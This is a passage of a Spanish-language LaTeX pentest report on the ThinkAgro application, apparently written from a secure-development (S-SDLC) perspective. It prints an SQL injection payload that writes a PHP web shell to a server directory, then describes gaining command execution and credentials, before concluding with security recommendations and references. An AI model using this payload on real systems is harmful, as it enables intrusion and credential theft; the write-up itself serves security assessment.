permitirá ejecutar ataques de ejecución remota.


\begin{minted}[linenos,tabsize=2,breaklines,fontsize=\scriptsize]{sql}
Libro de prueba 3' union SELECT 1,2,3,4, '\n<?php echo shell_exec($_GET[''cmd'']); ?>' INTO dumpfile 'C:/xampp/htdocs/enwi/test.php' -- 
\end{minted}

\begin{figure}
	\centering
	
\includegraphics[width=.9\textwidth]{fragments/pentest/pen4.png}
    \caption{ Inyección de RCE }
\end{figure}

Ahora, para la etapa de explotación, verificamos si el archivo es ejecutable desde la máquina. En el caso de máquinas con windows, al no haber separación directa de los permisos de los usuarios, el mismo usuario que crea un archivo que levanta el servidor MySQL, también genera archivos que son ejecutables por el usuario que levanta PHP, porque son el mismo.

Comenzamos listando los directorios, entre ellos, utilizamos el directorio que apareció en el primer error mostrado.

\begin{figure}
	\centering
	
\includegraphics[width=.9\textwidth]{fragments/pentest/pen5.png}
    \caption{ Explotación  de RCE }
\end{figure}

Finalmente comenzamos a leer los archivos utilizando inyección SQL tal como se mostró en el ejemplo anterior. Podemos en este punto escribir, leer y manipular archivos a lo largo de toda la máquina, junto también con ejecutar comandos de manera arbitraria. De este modo, hemos ganado acceso total a esta, junto con sus credenciales.

\begin{figure}
	\centering
	
\includegraphics[width=.9\textwidth]{fragments/pentest/pen6.png}
    \caption{ Credenciales obtenidas }
\end{figure}
\section{Conclusiones}

Hemos presentado un analisis para la aplicación ThinkAgro desarrollada en 2018, desde el punto de vista de S-SDLC. Este análisis si bien es práctico, hemos demostrado que presenta graves falencias al momento de replicar conocimiento si es que no se tiene la aplicación como tal. Esto nos imposibilita de utilizar la metodología para poder ganar información de proyectos anteriores.

Por otro lado, es bastante práctica cuando los proyectos están en medio de su etapa de desarrollo o bien este ya ha terinado para poder generar recomendaciones. Bajo este contexto de desarrollo, podemos entregar las siguientes recomendaciones:

\begin{itemize}
    \item En caso de tener equipos altamente desbalanceados, es bueno mediar los asuntos de seguridad a nivel organizacional y separar las tareas técnicas a una persona especializada.
    \item Se prefiere utilizar un acercamiento de contenedores los cuales encapsulen de manera atómica los componentes de una aplicación a un despliegue donde todos los elementos esténm altamente cohesionados.
    \item Si es posible, reducir los nexos de comunicación a los necesarios para reducir el ruido en la transferencia de información en equipos grandes.
\end{itemize}




\begin{thebibliography}{9}

	\bibitem{REF:sqlmap}
	Documentación de burp
	\textit{burp homepage}.
	https://portswigger.net/burp

	\bibitem{REF:docker}
	Documentación de docker
	\textit{Docker.io homepage}.
	https://docs.docker.com/

	\bibitem{REF:OWASP ZAP}
	Introducción a docker
	\textit{SAKURA.Internet}.
	https://knowledge.sakura.ad.jp/13265/


	\bibitem{REF:sonar}
	SonarCloud
	\textit{Documentación de SonarQube}.
	https://docs.sonarqube.org/latest/


	\bibitem{REF:ebs}
	Setting up AWS Web Application Firewall (WAF) with Elastic Beanstalk
	\textit{Medium, Alfred Yang}.
	https://medium.com/finnovate-io/setting-up-aws-web-application-firewall-waf-with-elastic-beanstalk-6243dc7755ea


	\bibitem{REF:td}
	OWASP ThreatDragon
	\textit{OWASP ThreatDragon Project Homepage}.
	https://owasp.org/www-project-threat-dragon/

\end{thebibliography}

\end{document}